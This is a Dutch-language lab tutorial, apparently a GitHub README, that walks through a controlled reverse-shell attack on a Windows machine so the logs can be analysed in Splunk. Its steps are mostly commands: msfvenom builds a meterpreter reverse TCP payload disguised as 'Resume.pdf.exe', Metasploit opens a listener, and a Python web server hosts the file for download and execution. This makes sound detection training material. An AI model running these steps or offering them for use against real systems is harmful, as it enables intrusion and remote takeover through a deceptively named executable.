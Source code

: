 In deze demo genereer je telemetrie door een gecontroleerde reverse shell-aanval op het Windows-systeem uit te voeren.
De logs hiervan worden later in Splunk geanalyseerd.

🔹 Stap 1 — Payload-opties bekijken
msfvenom -l payloads


Toont een lijst met beschikbare payloads in Metasploit.
Handig om te zien welke type shell of exploit je kunt genereren.

🔹 Stap 2 — Payload aanmaken
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<kali_ip> lport=4444 -f exe -o Resume.pdf.exe


Genereert een Windows-executable die een reverse shell terugstuurt naar de Kali IP op poort 4444.
De payload wordt opgeslagen als Resume.pdf.exe.

🔹 Stap 3 — Metasploit starten
msfconsole


Start het Metasploit Framework om de reverse shell-verbinding te kunnen ontvangen.

🔹 Stap 4 — Handler instellen
use exploit/multi/handler


Activeert een generieke listener die inkomende shells opvangt.

🔹 Stap 5 — Opties bekijken
options


Laat alle configureerbare parameters zien van de exploit-handler.

🔹 Stap 6 — Payload en IP configureren
set payload windows/x64/meterpreter/reverse_tcp
set lhost <kali_ip>


Bepaalt welk payloadtype en IP-adres gebruikt wordt voor de connectie.

🔹 Stap 7 — Exploit uitvoeren
exploit


Start de listener.
Zodra het doelbestand op Windows wordt uitgevoerd, opent de shell terug naar Kali.

🔹 Stap 8 — HTTP-server starten
python3 -m http.server 9999


Start een eenvoudige webserver op poort 9999 om het Resume.pdf.exe bestand te hosten.
Windows kan dit bestand via de browser downloaden.

🔹 Stap 9 — Payload uitvoeren (Windows)

Open op Windows de browser.

Navigeer naar http://<kali_ip>:9999/Resume.pdf.exe.

Download en voer het bestand uit.
